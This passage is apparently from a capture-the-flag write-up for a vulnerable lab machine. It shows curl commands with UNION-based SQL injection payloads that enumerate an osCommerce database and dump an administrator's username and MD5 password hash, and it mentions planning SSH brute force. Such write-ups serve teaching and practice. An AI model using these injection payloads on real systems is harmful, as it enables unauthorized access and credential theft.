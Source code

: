 ```bash
osc_configuration_group                                                                                                                                             
osc_counter
...
```

**Enumerating columns**


```bash
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27%20union%20select%200,1,column_name,3,4%20from%20information_schema.columns%20where%20table_schema=%27oscommerce%27%20and%20table_name=%27osc_administrators%27--%20-' | tr '<' '\n' | grep -P 'br />\w' | awk -F ">" '{print $NF}'
id 
user_name 
user_password 
```

**Retrieving users**

```bash
root@kali:~$ curl -s 'http://192.168.110.151/blog/index.php?act=page&id=999999999%27%20union%20select%200,1,concat%28user_name,0x3a,user_password%29,3,4%20from%20oscommerce.osc_administrators--%20-' | tr '<' '\n' | grep -P 'br />\w' | awk -F ">" '{print $NF}'
admin:685cef95aa31989f2edae5e055ffd2c9:32
```

In the output we can see that there is only one record, also in the following picture we can see the password for the MD5 hash.

![](/assets/images/breach2/screenshot-5.png)

**Enumerating the system users**

Listing the system users, I filtered for those who are using a bash shell, to try brute force via SSH.
